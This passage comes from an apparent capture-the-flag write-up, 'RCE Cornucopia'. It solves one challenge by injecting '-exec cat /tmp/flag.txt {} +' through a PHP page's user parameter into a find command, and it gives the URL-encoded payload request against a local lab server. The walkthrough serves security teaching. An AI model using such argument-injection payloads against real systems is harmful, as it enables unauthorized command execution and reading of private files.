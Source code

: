 The command we'll run is to `cat` the flag to the matched file (Sam). The following will match Sam and then execute `cat /tmp/flag.txt Sam`

```
root@kali ~/A/c/08# find . -name Sam -exec cat /tmp/flag.txt {} +
flag{localPOCflag}
```

So our payload is,

```
Sam -exec cat /tmp/flag.txt {} +
```

For some reason this challenge is especially sensitive to URL encoding. To avoid problems I've encoded all non-alpha characters in the payload.

```
http://127.0.0.1:8088/index.php?user=Sam%20-exec%20cat%20%2Ftmp%2Fflag.txt%20%7B%7D%20%2B&submit=Scan
```

![RCE Cornucopia](/img/rce-cornucopia/rce8-004.png)

Woo.

# Challenge 9

![RCE Cornucopia](/img/rce-cornucopia/rce9-000.png)
